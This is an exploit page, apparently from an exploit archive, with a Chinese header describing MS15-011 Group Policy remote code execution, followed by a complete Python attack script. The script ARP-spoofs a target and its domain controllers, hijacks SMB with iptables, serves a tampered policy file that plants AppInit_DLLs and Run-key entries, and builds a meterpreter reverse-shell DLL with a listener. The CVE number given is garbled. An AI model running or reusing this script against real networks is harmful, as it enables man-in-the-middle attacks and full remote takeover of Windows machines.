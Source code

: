 # **Microsoft Windows Server 2012 -"组策略远程代码执行"** #
## 受影响版本 ##
Windows Server 2003，Windows Vista，Windows Server 2008，Windows Server 2008 R2，Windows Server 2008 R2，Windows 8，Windows Server 2012，Windows RT，Windows 8.1，Windows Server 2012 R2，and Windows RT 8.1
## 测试系统： ##
Windows 7，Windows Server 2012
## 类型 ##
远程
## 平台 ##
Windows
## 描述 ##
尽管存在漏洞和视频演示成功开发的多个建议，但MS15011（CVE-2015-08）没有公开开发代码。此攻击代码以易受攻击的系统为目标，以便修改注册表项以禁用SMB签名、实现系统级远程代码执行（AppInit_DLL）和用户级远程代码执行（运行密钥）。
## POC ##
<pre class="prettyprit lang-javascript">
import argparse
import os
import subprocess
import socket
import fcntl
import struct
 
# MS15-011 Exploit.
# For more information and any updates/additions this exploit see the following Git Repo: https://github.com/Freakazoidile/Exploit_Dev/tree/master/MS15-011
# Example usage: python3 ms15-011.py -t 172.66.10.2 -d 172.66.10.10 -i eth1
# Example usage with multiple DC's: python3 ms15-011.py -t 172.66.10.2 -d 172.66.10.10 -d 172.66.10.11 -d 172.66.10.12 -i eth1
# Questions @Freakazoidile on twitter or make an issue on the GitHub repo. Enjoy.
 
def arpSpoof(interface, hostIP, targetIP):
    arpCmd = "arpspoof -i %s %s %s " % (interface, hostIP, targetIP)
    arpArgs = arpCmd.split()
    print("Arpspoofing: %s" % (arpArgs))
    p = subprocess.Popen(arpArgs, stdout=subprocess.PIPE, stderr=subprocess.STDOUT)
 
     
def karmaSMB(hostIP):
    print("reverting GptTmpl.inf from bak")
    os.system("cp GptTmpl.inf.bak GptTmpl.inf")
    appInit = 'MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Windows\\AppInit_DLLs=1,"\\\\%s\\SYSVOL\\share.dll"\r\n' % (hostIP)
    CURunKey = 'MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\\Key=1,"rundll32.exe \\\\%s\\SYSVOL\\share.dll",1\r\n' % (hostIP)
    f = open("GptTmpl.inf","a", encoding='utf-16le')
    f.write(appInit)
    f.write(CURunKey)
    f.close()
     
    path = os.getcwd()
     
    fConfig = open("smb.conf","w")
    fConfig.write("ini = "+path+"/gpt.ini\ninf = "+path+"/GptTmpl.inf\ndll = "+path+"/shell.dll\n")
    fConfig.close()
 
    karmaCmd = "python karmaSMB.py -config smb.conf -smb2support ./ "
    os.system(karmaCmd)
 
 
def iptables_config(targetIP, hostIP):
    print('[+] Running command: echo "1" > /proc/sys/net/ipv4/ip_forward')
    print('[+] Running command: iptables -t nat -A PREROUTING -p tcp -s %s --destination-port 445 -j DNAT --to-destination %s' % (targetIP, hostIP))
    print('[+] Running command: iptables -t nat -A PREROUTING -p tcp -s %s --destination-port 139 -j DNAT --to-destination %s' % (targetIP, hostIP))
    print('[+] Running command: iptables -t nat -A POSTROUTING -j MASQUERADE')
    os.system('echo "1" > /proc/sys/net/ipv4/ip_forward')
    os.system('iptables -t nat -A PREROUTING -p tcp -s %s --destination-port 445 -j DNAT --to-destination %s' % (targetIP, hostIP))
    os.system('iptables -t nat -A PREROUTING -p tcp -s %s --destination-port 139 -j DNAT --to-destination %s' % (targetIP, hostIP))
    os.system('iptables -t nat -A POSTROUTING -j MASQUERADE')
 
 
def get_interface_address(ifname):
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    return socket.inet_ntoa(fcntl.ioctl(s.fileno(), 0x8915, struct.pack('256s', bytes(ifname[:15], 'utf-8')))[20:24])
 
def generatePayload(lhost, lport):
    print("generating payload(s) and metasploit resource file")
    msfDll = "msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=%s lport=%s -f dll -o shell.dll" % (lhost, lport)
    os.system(msfDll)
    msfResource = "use multi/handler\nset payload windows/x64/meterpreter/reverse_tcp\nset lhost %s\nset lport %s\nset exitonsession false\nexploit -j\n" % (lhost, lport)
    print("metasploit resource script: %s" % msfResource)
    print ("metasploit resource script written to meta_resource.rc type 'msfconsole -r meta_resource.rc' to launch metasploit and stage a listener automatically")
     
    file = open("meta_resource.rc", "w+")
    file.write(msfResource)
    file.close()
         
 
 
if __name__ == '__main__':
 
    parser = argparse.ArgumentParser()
 
    # Add arguments
    parser.add_argument("-t", "--target_ip", help="The IP of the target machine vulnerable to ms15-011/14", required=True)
    parser.add_argument("-d", "--domain_controller", help="The IP of the domain controller(s) in the target domain. Use this argument multiple times when multiple domain contollers are preset.\nE.G: -d 172.66.10.10 -d 172.66.10.11", action='append', required=True)
    parser.add_argument("-i", "--interface", help="The interface to use. E.G eth0", required=True)
    parser.add_argument("-l", "--lhost", help="The IP to listen for incoming connections on for reverse shell. This is optional, uses the IP from the provided interface by default. E.G 192.168.5.1", required=False)
    parser.add_argument("-p", "--lport", help="The port to listen connections on for reverse shell. If not specified 4444 is used. E.G 443", required=False)
 
    args = parser.parse_args()
 
    # Check for KarmaSMB and GptTmpl.inf.bak, if missing download git repo with these files.
    print ("checking for missing file(s)")
    if not os.path.isfile("karmaSMB.py") and not os.path.isfile("GptTmpl.inf.bak"):
        print("Requirements missing. Downloading required files from github")
        os.system("git clone https://github.com/Freakazoidile/MS15-011-Files")
        os.system("mv MS15-011-Files/* . && rm -rf MS15-011-Files/")
 
    # Get the provided interfaces IP address
    ipAddr = get_interface_address(args.interface)
 
    if args.lhost is not None:
        lhost = args.lhost
    else:
        lhost = ipAddr
 
    if args.lport is not None:
        lport = args.lport
    else:
        lport = '4444'
     
 
    dcSpoof = ""
    dcCommaList = ""
    count = 0
   
    # loop over the domain controllers, poison each and target the host IP
    # create a comma separated list of DC's
    # create a "-t" separate list of DC's for use with arpspoof
    for dc in args.domain_controller:
        dcSpoof += "-t %s " % (dc)
        if count > 0: 
            dcCommaList += ",%s" % (dc)
        else:
            dcCommaList += "%s" % (dc)
 
        arpSpoof(args.interface, dc, "-t %s" % (args.target_ip))
        count += 1
 
    # arpspoof the target and all of the DC's
    arpSpoof(args.interface, args.target_ip, dcSpoof)
 
    # generate payloads
    generatePayload(lhost, lport)
 
    # Setup iptables forwarding rules
    iptables_config(args.target_ip, ipAddr)
 
    #run Karmba SMB Server
    karmaSMB(ipAddr)
    
     
    print("Targeting %s by arp spoofing %s and domain controllers: %s " % (args.target_ip, args.target_ip, args.domain_controllers))
    print("If you interupt/stop the exploit ensure you stop all instances of arpspoof and flush firewall rules!")
</pre>
    